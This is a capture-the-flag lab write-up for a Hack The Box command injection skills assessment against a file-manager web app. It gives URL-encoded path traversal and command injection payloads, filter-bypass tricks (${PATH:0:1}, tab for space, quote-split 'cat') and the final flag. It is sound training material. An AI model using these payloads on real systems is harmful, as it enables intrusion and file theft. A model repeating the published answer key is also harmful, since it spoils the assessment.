



# Section 12: Skills Assessment

Module: 22. Command Injections

---

## Questions & Answers

### 1. What is the content of '/flag.txt'?

Context:
- All related urls of file management app:
```
http://[IP_ADDRESS]/index.php?to= (VIEW DIRECTORY)
http://[IP_ADDRESS]/index.php?to=&view=<FILENAME>&quickView=1 (VIEW FILE CONTENT)
http://[IP_ADDRESS]/index.php?to=<DIRECTORY>&from=<FILENAME> (VIEW ACTION WITH FILE)
http://[IP_ADDRESS]/index.php?to=tmp&from=51459716.txt&finish=1&move=1 (MOVE ACTION)
http://[IP_ADDRESS]/index.php?to=tmp&from=51459716.txt&finish=1 (COPY ACTION)
http://[IP_ADDRESS]/index.php?to=tmp&dl=51459716.txt (DOWNLOAD ACTION)
```
- I think of leveraging the copy or move action to copy or move `/flag.txt` to `/tmp` or `/` where we can see the content so I tried:
```
/index.php?to=&from=11066.txt&finish=1&move=1 => got Error while moving: mv: cannot stat '/var/www/html/files/11066.txt': No such file or directory
```
- The command behind maybe something like `mv /var/www/html/files/<INPUT> <DESTINATION FROM to>`, I think of a method, use `../../../../flag.txt` to move the `/flag.txt` to where I can view, URL encoded: `/index.php?to=&from=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fflag%2Etxt&finish=1&move=1`, but got `Malicious request denied!`

- Tried remove the `%2F` which is the `/` and doesn't got the message `Malicious request denied!` anymore, so `.` is allowed but `/` is blacklisted, used the `${PATH:0:1}` method to bypass the blacklist:

- But now got `Permission denied`, I use the same method with `COPY ACTION` but got some unexpected error. Therefore, from that, I have another idea of inject a real command, from several testing what I confirmed:
```
&& (which is %26%26, url-encoded) => ALLOWED (inject command)
tab (which is %09, url-encoded) => ALLOWED (will be used for alternative to space)
# (which is %23, url-encoded) => ALLOWED (will be used for comment)
{c'a't} => ALLOWED (run the command)
```
- I know that the command is something `mv /var/www/html/files/<INPUT> <DESTINATION FROM to>`, so what I want to inject is:
```bash
mv /var/www/html/files/<ANY EXISTED FILE> ./&&cat /flag.txt #<DESTINATION FROM to>
```
- Use the knowledge we have learned, final parameters:
```
/index.php?to=tmp&from=605311066.txt%09%2E${PATH:0:1}%26%26{c'a't,${PATH:0:1}flag.txt}%09%23&finish=1&move=1
```
Got the flag:


**Answer:** `HTB{c0mm4nd3r_1nj3c70r}`

---

[Back to Module Index](./README.md)
